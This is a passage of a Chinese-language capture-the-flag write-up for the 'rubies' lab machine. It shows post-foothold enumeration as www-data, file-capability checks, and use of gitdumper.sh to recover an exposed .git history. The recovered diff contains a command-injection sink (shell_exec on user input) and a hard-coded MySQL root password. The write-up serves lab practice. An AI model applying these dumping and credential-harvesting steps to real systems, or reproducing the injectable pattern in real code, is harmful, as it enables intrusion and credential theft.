 ```Bash
(remote) www-data@rubies:/home/minnie$ cat note.txt
Put anything you'd like to in the folder,
do not do dumb stuff pls
```


```Bash
“可以把任何你想要的东西放进这个文件夹里，
请不要做蠢事，谢谢。”
```
意思是我们可以放任何东西到这个目录下

那我们是不是可以放我们的公钥呢

```Bash
(remote) www-data@rubies:/home$ ls -la
total 12
drwxr-xr-x  3 root root 4096 Nov  2  2020 .
drwxr-xr-x 23 root root 4096 Nov  2  2020 ..
drwxr-xr-x  2 root root 4096 Nov  2  2020 minnie
```
骗子啊。没有写入权限

还是看看提权吧

```Bash
/usr/bin/systemd-detect-virt = cap\_dac\_override,cap\_sys\_ptrace+ep
/usr/bin/traceroute6.iputils = cap\_net\_raw+ep
/usr/bin/mtr = cap\_net\_raw+ep
```
好像没有什么可以利用的

## 5. git再利用

之前利用githack获取到了其中的Git目录下的一些文件

查看大佬的wp发现还有个GitTools工具

利用这个工具可以获取到包含一些凭据的历史记录...

```Bash
/home/gitTools-v0.0.1/Dumper/gitdumper.sh http://192.168.56.12/.git/ git
cd /home/gitTools-v0.0.1/Dumper/git/.git
 git show HEAD
commit 052a0cb4865e29bc03278105e0232b20173f933d (HEAD -> master)
Author: Your Name <root@rubies.com>
Date:   Mon Nov 2 14:27:16 2020 +0800

    Why minnie?

diff --git a/index.php b/index.php
index 41f0f2f..d33ca0d 100644
--- a/index.php
+++ b/index.php
@@ -8,33 +8,6 @@ if(isset($\_GET['poem'])){
                $output = shell\_exec("cat poems/".$input);
        }
 }
-
-
-// we dont need a login page dangit minnie! follow my orders pls
-$servername = "localhost";
-$username = "root";
-$password = "jd92khn49w";
-
-$conn = new mysqli($servername, $username, $password);
-
-if ($conn->connect\_error) {
```